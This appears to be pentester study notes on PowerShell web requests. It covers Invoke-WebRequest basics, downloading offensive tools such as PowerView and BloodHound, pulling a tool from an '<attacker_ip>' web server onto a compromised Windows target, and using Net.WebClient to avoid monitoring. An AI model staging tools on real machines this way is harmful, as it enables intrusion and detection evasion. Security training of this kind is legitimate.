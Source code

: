 # Interacting With The Web


## 1. `Invoke-WebRequest` - The PowerShell Web Client

**`Invoke-WebRequest`** is the primary, built-in PowerShell cmdlet for sending HTTP/S requests to a web page or web service. It is a powerful and flexible tool that can handle a wide variety of web-related tasks.

*   **Common Aliases:** `iwr`, `curl`, `wget`
*   **Key Functionality:**
    *   Makes GET, POST, and other HTTP requests.
    *   Downloads files.
    *   Parses HTML responses into structured objects.
    *   Manages web sessions and authentication.

### Making a Basic Web Request
The core function is to retrieve content from a URL. By default, PowerShell parses the HTML response into a rich object.

```powershell
# Make a GET request to the specified URL
Invoke-WebRequest -Uri "https://example.com" -Method GET
```

### Working with the Response Object
The real power of `Invoke-WebRequest` is that its output is an object with many useful properties that can be filtered and explored.

*   **Viewing All Properties and Methods:**
    ```powershell
    Invoke-WebRequest -Uri "https://example.com" | Get-Member
    ```
*   **Common Properties to Inspect:**
    *   `.StatusCode`: The HTTP status code of the response (e.g., `200`).
    *   `.Headers`: A dictionary of all the response headers.
    *   `.Content`: The raw text content of the response body (e.g., the HTML source).
    *   `.Images`, `.Links`, `.Forms`: Parsed collections of all the images, links, or forms found on the page.

*   **Example: Filtering for all images on a page:**
    ```powershell
    # The 'fl' is an alias for 'Format-List'
    Invoke-WebRequest -Uri "https://example.com" | Select-Object -ExpandProperty Images | fl
    ```

---

## 2. Downloading Files

`Invoke-WebRequest` is the standard PowerShell method for downloading files from the command line.

*   **Syntax:**
    ```powershell
    Invoke-WebRequest -Uri <URL_of_file> -OutFile <local_path_to_save>
    ```
*   **Example: Downloading PowerView from GitHub:**
    ```powershell
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "C:\Tools\PowerView.ps1"
    ```

### Practical Use Case for Pentesters
A common technique is to host tools on a simple web server on your attacker machine and then use `Invoke-WebRequest` on the compromised target machine to download them. This avoids generating traffic to the public internet from the target, which is often a stealthier approach.

1.  **On Attacker Machine (Linux):** Start a simple Python web server in the directory containing your tools.
    ```shell
    python3 -m http.server 8000
    ```
2.  **On Target Machine (Windows):** Use `Invoke-WebRequest` to download the tool from your attacker machine.
    ```powershell
    Invoke-WebRequest -Uri "http://<attacker_ip>:8000/MyTool.exe" -OutFile "C:\Temp\MyTool.exe"
    ```

---

## 3. Alternative Download Method: `.Net.WebClient`

If `Invoke-WebRequest` is restricted or monitored, another built-in method for downloading files is to directly use the .NET Framework's `WebClient` class. This is a very common "living off the land" technique.

*   **Syntax:**
    ```powershell
    (New-Object Net.WebClient).DownloadFile("<URL_of_file>", "<local_path_to_save>")
    ```
*   **Example: Downloading BloodHound:**
    ```powershell
    (New-Object Net.WebClient).DownloadFile("https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-win32-x64.zip", "Bloodhound.zip")
    ```
This method is often less likely to be blocked by basic application control policies than `Invoke-WebRequest` and is a valuable alternative for penetration testers.
